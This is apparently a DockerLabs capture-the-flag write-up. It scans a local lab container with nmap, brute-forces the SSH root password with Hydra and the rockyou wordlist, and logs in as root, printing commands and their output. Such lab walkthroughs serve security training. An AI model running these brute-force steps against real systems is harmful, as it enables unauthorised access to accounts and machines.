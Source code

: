 #Injection DockerLabs - 14/05/2024

#web - https://dockerlabs.es/#/

We start with a port scan with nmap:

```shell
└─$ nmap -sVC -p- -n --min-rate 5000 172.17.0.3
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-14 20:55 CEST
Nmap scan report for 172.17.0.3
Host is up (0.00013s latency).
Not shown: 65534 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.7 (protocol 2.0)
| ssh-hostkey: 
|   2048 1a:cb:5e:a3:3d:d1:da:c0:ed:2a:61:7f:73:79:46:ce (RSA)
|   256 54:9e:53:23:57:fc:60:1e:c0:41:cb:f3:85:32:01:fc (ECDSA)
|_  256 4b:15:7e:7b:b3:07:54:3d:74:ad:e0:94:78:0c:94:93 (ED25519)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 2.18 seconds

```

We see only one ssh server with a version of OpenSSH 7.7.
We tried a brute force attack with Hydra on the user "root" to test and found that the password is "estrella".:

```shell
└─$ hydra -l root -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.3/ -t 5
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).


Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-05-14 21:24:39
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 5 tasks per 1 server, overall 5 tasks, 14344400 login tries (l:1/p:14344400), ~2868880 tries per task
[DATA] attacking ssh://172.17.0.3:22/
[22][ssh] host: 172.17.0.3   login: root   password: estrella
```
We enter the server with these data:

```shell
└─$ ssh root@172.17.0.3
```

```shell
root@f83a9e7115cf:~# whoami
root
```
